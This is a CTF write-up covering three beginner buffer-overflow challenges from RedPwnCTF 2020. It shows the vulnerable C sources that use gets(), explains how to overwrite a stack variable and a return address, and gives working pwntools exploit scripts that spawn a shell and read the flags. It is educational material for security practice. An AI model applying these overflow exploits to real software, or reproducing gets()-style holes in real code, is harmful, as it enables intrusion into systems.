 ```yaml
---
id: 0
title: "Writeup for RedPwnCTF 2020 coffer-overflow-0, 1, 2"
subtitle: "Beginner's Pwn"
date: "2020.06.26"
tags: "ctf, linux-bof, ctf blog, writeup, ctf writeup"
---
```


# coffer-overflow 0

### Basics of the basics
So, how do we approach this question? We can take a look at the source provided (coffer-overflow-0.c):
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code != 0) {
    system("/bin/sh");
  }
}
```

It looks like a standard buffer overflow question where the vulnerability here is gets(), which does not specify the amount of bytes it should accept. Since the variable we're writing to, `char name[16]` has a allocated buffer size of 16, we just need to overflow past that to start overwriting the variables we want, which in this case is `code`.

This is our target line:
```c
if(code != 0) {
    system("/bin/sh");
  }
```

As long as we are able to overwrite `code`, it doesn't matter what we overwrite it with, it will redirect us to shell.
Since stack space is generally allocated in multiples of 16, and this function declares `16+8=24 < 32` bytes for the variables, we can assume 32 bytes would be allocated to the function. Hence we just need to overwrite into the last 8 bytes of the stack and we should overwrite `code`. The length of our exploit would be 32-8+1 = 25.

Here is the final exploit:
```python
#!/usr/bin/env python

from pwn import *
e = ELF("./coffer-overflow-0")
p = remote("2020.redpwnc.tf", 31199)

p.recvline()
p.recvline()
p.sendline("A"*25)
p.interactive()
```

This should redirect us to shell, and with a simple `ls` we can see an entry `flag.txt`, so we simply do `cat flag.txt` to obtain the flag:
```
$ ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
```

# coffer-overflow-1

### Slightly more advanced
We take a look at the source code:
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
	
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
	system("/bin/sh");
  }
}
```

This time, we would need to not only overwrite `code`, but also overwrite it with value `0xcafebabe` in little endian.
We use the same approach as before, with a padding of 32-8 = 24 characters followed by `0xcafebabe` in little endian.

Here is the final exploit:
```python
#!/usr/bin/env python

from pwn import *

e = ELF("./coffer-overflow-1")
p = remote("2020.redpwnc.tf", 31255)

print(p.recvline())
print(p.recvline())
payload = b"A"*24
payload += p64(0xcafebabe)
p.sendline(payload)
p.interactive()
```

This should redirect us to shell:
```
$ ls
Makefile
bin
coffer-overflow-1
coffer-overflow-1.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```

# coffer-overflow-2

### Ret 2 bin?
Similarly, we take a quick look at the source code:
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

}

void binFunction() {
  system("/bin/sh");
}
```

Ah, now we get to ROP. We simply need to ROP to binFunction() to execute it, which will redirect us to shell.

There are many ways to find the address of the function, we can use `objdump -d` to find the address of binFunction():
```
$ objdump -d coffer-overflow-2 | grep binFunction
00000000004006e6 <binFunction>:
```

Now we just need to overwrite the `rip` register with this value in little endian.
We take 16 random characters + 8 to overwrite the `rbp` register for a padding of 24.

Here is the final exploit:
```python
#!/usr/bin/env python

from pwn import *

e = ELF("./coffer-overflow-2")
p = remote("2020.redpwnc.tf", 31908)

print(p.recvline())
print(p.recvline())
payload = b"A"*24
payload += p64(0x4006e6)
p.sendline(payload)
p.interactive()
```

This redirects us to shell:
```
$ ls
Makefile
bin
coffer-overflow-2
coffer-overflow-2.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}
```

# Final words
Overall, these challenges were pretty easy and meant for beginner CTF players, but it was still good practice to get used to the most basic forms of buffer overflow.